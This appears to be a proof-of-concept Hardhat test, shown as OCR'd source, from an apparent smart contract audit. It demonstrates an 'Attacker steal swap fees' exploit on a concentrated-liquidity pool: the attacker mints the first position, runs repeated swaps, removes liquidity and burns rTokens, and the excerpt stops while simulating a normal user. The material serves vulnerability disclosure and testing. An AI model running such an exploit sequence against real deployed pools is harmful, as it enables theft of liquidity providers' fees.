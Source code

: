 ```js
    const CallbackContract = (await ethers.getContractFactory('MockCallbacks')) as MockCallbacks__factory;
    let callback = await CallbackContract.deploy(tokenA.address, tokenB.address);

    // create pools
    await factory.createPool(token0.address, token1.address, 50);
    const poolAddress = await factory.getPool(token0.address, token1.address, 50);
    const PoolContract = (await ethers.getContractFactory('MockPool')) as MockPool__factory;
    const pool = PoolContract.attach(poolAddress);

    await tokenA.connect(attacker).approve(callback.address, MAX_UINT);
    await tokenB.connect(attacker).approve(callback.address, MAX_UINT);

    return new Fixtures(factory, pool, token0, token1, callback);
  }

  beforeEach('load fixture', async () => {
    ({ factory, pool, token0, token1, callback } = await loadFixture(fixture));
  });

  it('Attacker steal swap fees', async () => {
    // 0. pool setup
    initialPrice = encodePriceSqrt(ONE, ONE);
    await callback.unlockPool(pool.address, initialPrice);
    await factory.connect(admin).addNFTManager(callback.address);
    // just for clarity, disable whitelist to use tweakPosZeroLiq later
    await factory.connect(admin).disableWhitelist(); 

    // 1. attacker is the first liquidity provider and launches his attack
    //  a. attacker mint the first position
    await callback.mint(pool.address, attacker.address, -100, 100, ticksPrevious, PRECISION.mul(10000000), '0x');

    //  b. make swaps to increase reinvestL
    for (let i = 0; i < 30; i++) {
      await callback.connect(attacker)
        .swap(pool.address, attacker.address, PRECISION.mul(10000000), false, await getPriceFromTick(50), '0x');
      await callback.connect(attacker)
        .swap(pool.address, attacker.address, PRECISION.mul(10000000), true, await getPriceFromTick(0), '0x');
    }

    //  c. remove all liquidity to mint rTokens
    console.log('[+] attacker remove all liquidity');
    await pool.connect(attacker).burn(-100, 100, MIN_LIQUIDITY);
    let attackerBalance = await pool.balanceOf(attacker.address);
    console.log('[*] attacker rToken balance: ', attackerBalance.toString());

    //  d. attacker burn rTokens
    console.log('[+] attacker burn rTokens')
    await pool.connect(attacker).burnRTokens(attackerBalance.sub(1000), true);      // toggle comment to see the difference
    attackerBalance = await pool.balanceOf(attacker.address);
    console.log('[*] attacker rToken balance after burn: ', attackerBalance.toString());


    // 3. Simulate normal user behaviors

    const totoSupplyBefore = await pool.totalSupply();
    console.log('[*] totoSupply before normal user behaviors', totoSupplyBefore.toString());

    // userB provide liquidity
```